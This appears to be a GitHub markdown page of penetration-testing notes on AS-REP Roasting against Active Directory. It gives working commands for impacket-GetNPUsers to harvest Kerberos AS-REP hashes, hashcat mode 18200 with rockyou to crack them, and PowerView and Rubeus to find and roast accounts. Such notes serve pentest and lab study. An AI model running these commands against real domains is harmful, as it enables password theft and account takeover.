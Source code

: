 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).

![AD Herbros001](https://github.com/user-attachments/assets/fe2bf9f5-6b61-4d2f-81d9-33e465e2a477)


## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
- For no password
   ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -outputfile <output_file> <Domain/User>
   ```
- You have a list of users
  ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -usersfile <user.lst> -outputfile <output_file> <Domain/>
  ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
impacket-GetNPUsers -dc-ip 10.10.10.192  -no-pass -usersfile user.lst -outputfile hhsh blackfield/
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)
Compiled Version [->](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools)

``` powershell
.\Rubeus.exe asreproast /nowrap
```
#### On BloodHound we Discover it as:
![image](https://github.com/user-attachments/assets/aab7c819-2b90-464d-af8e-7b947d8cd596)



